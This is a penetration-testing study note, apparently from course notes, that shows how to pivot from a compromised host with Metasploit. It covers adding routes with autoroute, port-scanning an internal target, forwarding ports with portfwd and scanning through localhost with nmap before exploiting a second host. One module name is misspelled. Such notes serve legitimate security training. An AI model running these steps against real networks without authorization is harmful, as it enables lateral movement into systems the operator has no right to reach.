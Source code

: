 # Pivoting

******************************************************************************
Items inside [SQUARE-BRACKETS] indicate changeable (fill in the blank) fields.  
Note: Bracket characters themselves [ ] require removal. See examples.
******************************************************************************

## Port Forwarding

* Port forwarding is the process of redirecting traffic from a specific port on a target system to a specific port on our system.  
  
* In the context of pivoting, we can forward a remote port on a previously inaccessible host toa local port on our Kali Linux system so that we can remotely interact/exploit the service running on the port.  
  
## From meterpreter shell on Target 1:

```
ifconfig
```
*Note IPv4 Netmask*  
  
Now set up a route to the internal network:
```
run autoroute -s [NETWORK-IP]/[CIDR]
```
Example:
```
run autoroute -s 10.0.29.0/20
```  
  
Show routing table:
```
run autoroute -p
```   
   
background meterpreter session and use portscan module:

```
use auxiliary/scanner/portscan/txp
```
```
set RHOSTS [TARGET-2-IP]
```
```
set PORTS [#-#]
```
```
run
```

### Now we need to use nmap on target 2...

Go back to Target 1's meterpreter session:
```
sessions 1
```  
  
Now turn on port forwarding:
```
portfwd add -l [LPORT] -p [OPEN-PORT-ON-TARGET-2] -r [TARGET-2-IP]
```   
   
From Attack Machine we can run nmap:
```
nmap -sV -p [LPORT-SPECIFIED-IN-PREVIOUS-STEP] localhost
```

* now use applicable module in msfconsole
* set RHOSTS to Target 2's IP
* set another required options and exploit

***********************************************************************

### References
Penetration Tester Student v2 by INE  
https://my.ine.com/CyberSecurity/learning-paths/61f88d91-79ff-4d8f-af68-873883dbbd8c/penetration-testing-student-v2